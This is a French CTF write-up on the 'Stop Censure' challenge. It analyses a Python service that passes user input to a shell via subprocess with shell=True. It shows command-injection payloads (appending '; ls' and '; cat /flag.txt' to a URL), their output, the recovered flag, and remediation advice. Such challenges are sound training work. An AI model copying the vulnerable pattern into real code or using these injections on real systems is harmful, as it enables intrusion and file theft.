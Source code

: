 ```yaml
---

layout: post  
title: Stop Censure  
subtitle: Write-Up pour le Nobrackets CTF  
tags: [writeup, injection, command, CTF]  
comments: true

---
```


Salut ! Voici mon write-up sur le challenge **Stop Censure** du Nobrackets CTF. Ce challenge exploite une vulnérabilité d'injection de commande, à travers l'utilisation de `subprocess`. Merci à `Drahoxx` ! 

## Premier coup d'œil

Le challenge nous demande de vérifier si un site est censuré ou non via un service accessible en utilisant `netcat`. Voici comment accéder au service :

```bash
nc node1.nobrackets.fr 20764
```

Une fois connecté, on nous demande de saisir une URL pour vérifier si elle est bloquée. L'objectif est d'exploiter cette interface pour accéder au fichier `/flag.txt`.

## Analyse du code

Voici le code source du service `chall.py` fourni :

```python
#!/usr/bin/env python3
import subprocess
import re

# Regex qui détermine les sites légaux
pattern = r'https?://[a-zA-Z0-9.-]+\.nobrackets\.fr(/[a-zA-Z0-9./?%_-]*)?'

# Fonction de vérification de la légalité d'une url
def is_legal_url(url):
    return re.match(pattern, url) is not None

# Bannière
print("----------------------------")
print("~~ Ce site est-il légal ? ~~")
print("----------------------------")

# Entrée utilisateur
value = input("Entrez un site (eg: https://wiki.nobrackets.fr/) >>> ")

# Vérification que l'entrée utilisateur ne soit pas vide
if not value:
    print("Erreur. Veuillez entrer une URL.")
    exit(-1)

# Vérification de la légalité de l'URL entrée
if not is_legal_url(value):
    print("Erreur. Votre URL est soit mal formatée soit illégale !")
    exit(-1)

# Test de l'existence du site
process = subprocess.run("curl -I "+value, capture_output=True, shell=True)
res = process.stdout
if not res:
    print("Erreur. Le site ne semble pas exister.")
    exit(-1)

# Affichage de l'échange
print("Succès ! Le site est légal et fonctionnel ! Voici ses informations : \n\n")
print(res.decode())
exit(0)
```

Le programme utilise `subprocess.run()` pour exécuter la commande `curl` et tester si l'URL existe. Toutefois, le problème réside dans l'utilisation de l'option `shell=True` avec la commande construite à partir de l'entrée utilisateur. Cela permet une injection de commande si la saisie utilisateur n'est pas correctement contrôlée.

## Exploitation

Pour tester si l'injection de commande fonctionne, j'ai essayé de lister les fichiers avec une commande `ls` :

```bash
nc node1.nobrackets.fr 20764
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; ls
```

L'output est le suivant :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
date: Thu, 17 Oct 2024 17:58:50 GMT
via: 1.1 varnish
age: 0
x-served-by: cache-par-lfpg1960039-PAR
x-cache: HIT
x-cache-hits: 1
x-timer: S1729187930.281473,VS0,VE129
vary: Accept-Encoding
x-fastly-request-id: 561b2b3cd07d5177045d938ec4be4fc947ef1304
content-length: 42507

chall.py
```

Nous pouvons voir que la commande `ls` a bien été exécutée et que le fichier `chall.py` est listé dans le répertoire.

### Accès au Flag

L'étape suivante consiste à injecter une commande pour lire le fichier `/flag.txt`. Voici la commande complète :

```bash
Entrez un site (eg: https://wiki.nobrackets.fr/) >>> https://wiki.nobrackets.fr; cat /flag.txt
```

Voici l'output obtenu :

```bash
Succès ! Le site est légal et fonctionnel ! Voici ses informations :

HTTP/2 200 
server: GitHub.com
content-type: text/html; charset=utf-8
last-modified: Fri, 11 Oct 2024 22:00:15 GMT
access-control-allow-origin: *
etag: "67099fef-a60b"
expires: Thu, 17 Oct 2024 16:28:13 GMT
cache-control: max-age=600
x-proxy-cache: MISS
x-github-request-id: 5066:0DB5:E147C0:E7B1C4:671138C4
accept-ranges: bytes
age: 106
date: Thu, 17 Oct 2024 18:00:36 GMT
via: 1.1 varnish
x-served-by: cache-par-lfpg1960025-PAR
x-cache: HIT
x-cache-hits: 0
x-timer: S1729188037.902421,VS0,VE1
vary: Accept-Encoding
x-fastly-request-id: b7bb977154518a58b081de81a79f9fc6db83fd4d
content-length: 42507

NBCTF{#FreeTheInternet}
```

Le flag est bien récupéré : **NBCTF{#FreeTheInternet}**.

## Conclusion

Ce challenge montre une autre forme d'injection de commande, cette fois-ci via la bibliothèque `subprocess` avec `shell=True`, qui permet à des utilisateurs malveillants d'exécuter des commandes arbitraires. Pour sécuriser ce type d'application, il est recommandé de désactiver `shell=True` et d'utiliser des commandes bien délimitées, tout en validant rigoureusement les entrées utilisateur.

Merci encore à `Drahoxx` pour ce challenge captivant !
